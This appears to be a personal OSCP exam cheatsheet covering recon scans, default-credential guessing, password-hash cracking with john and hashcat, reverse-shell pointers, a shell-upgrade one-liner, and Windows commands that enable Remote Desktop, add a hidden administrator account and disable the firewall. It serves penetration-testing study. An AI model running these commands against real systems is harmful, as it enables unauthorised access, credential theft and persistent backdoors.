 # oscp

# cheatsheet

## workflow
1. zenmap intensive scan
2. zenmap full tcp scan
3. attemp to login web / ssh / ftp using common id passwords
  - id: `root`, `admin`
  - password: `root`, `toor`, `password`, `passw0rd`, `admin`, no password
4. if there is a proxy server run on the target, try to set browser's proxy point to the proxy server

## recon
### HTTP and HTTPs
1. dirbuster (gui)
2. dirb http://10.11.1.115:80/ -o 80_dirb.txt -p proxy:port
2. nikto -h http://10.11.1.115:80 -output 80_nikto.txt -useproxy http://proxy:port
3. wpscan to find wordpress problems
4. cms scan (? todo: read it from a tool)

## password hash cracking
Cloud:
- https://crackstation.net/
- https://www.md5online.org/

Local tools:
- hash-identifier
- john
```bash
unshadow passwd.txt shadow.txt > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --fork=4 unshadowed.txt
```
- hashcat
```bash
unshadow passwd.txt shadow.txt > unshadowed.txt
hashcat -m 0 -a 0 unshadowed.txt -o unshadowed_cracked.txt --remove /usr/share/wordlists/rockyou.txt  # md5
hashcat -m 400 -a 0 unshadowed.txt -o unshadowed_cracked.txt --remove /usr/share/wordlists/rockyou.txt  # WordPress (MD5)
hashcat -m 1600 -a 0 unshadowed.txt -o unshadowed_cracked.txt  --remove /usr/share/wordlists/rockyou.txt  # $6$ Linux SHA-256
hashcat -m 0 -a 0 -D 2 unshadowed.txt -o unshadowed_cracked.txt  --remove /usr/share/wordlists/rockyou.txt # use GPU
```
To find hash type,
```bash
hashcat --help | grep -i wordpress
```

Wordlist:
- `/usr/share/wordlists/rockyou.txt`
- `/usr/share/seclists/Passwords/phpbb.txt`
- `/usr/share/seclists/Passwords/10k_most_common.txt`

For CTF / OSCP, should not take you more than 30 mins to crack


## generate reverse shell payload
- msfvnon
- https://github.com/rapid7/metasploit-framework/wiki/How-to-use-a-reverse-shell-in-Metasploit

## convert reverse shell to tty
```python
python -c "import pty; pty.spawn('/bin/bash')"
```

## create user account
Linux:


Windows:
```
REM ****************
REM Enable Remote Desktop
REM ****************
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

REM ***************
REM Create a USER usr= librah, pass= passw0rd
REM ***************
net user /add librah passw0rd
net localgroup "Administrators" /add librah
net localgroup “Remote Desktop Users” /add librah

REM ***************
REM Show USER info
REM ***************
net user librah

netsh firewall set opmode disable  # todo - available on all windows?
```

Reference: 
- https://www.windows-commandline.com/cmd-net-user-command/
- https://www.windows-commandline.com/enable-remote-desktop-command-line/


## references
- https://sushant747.gitbooks.io/total-oscp-guide/
- https://www.securitysift.com/offsec-pwb-oscp/
- https://github.com/xapax/oscp
- Previlege escalation
  - Linux https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
  - Windows http://www.fuzzysecurity.com/tutorials/16.html
- OSCP experience sharing
  - https://scund00r.com/all/oscp/2018/02/25/passing-oscp.html
  - https://medium.com/@hakluke/haklukes-ultimate-oscp-guide-part-2-workflow-and-documentation-tips-9dd335204a48
  - https://medium.com/@hakluke/haklukes-ultimate-oscp-guide-part-3-practical-hacking-tips-and-tricks-c38486f5fc97
  - https://medium.com/@m4lv0id/and-i-did-oscp-589babbfea19
  - https://gist.github.com/unfo/5ddc85671dcf39f877aaf5dce105fac3
  - https://0daylego.wordpress.com/2017/04/29/scripting-my-way-through-the-oscp-labs/
- [OSCP Exam Guide](https://support.offensive-security.com/#!oscp-exam-guide.md)
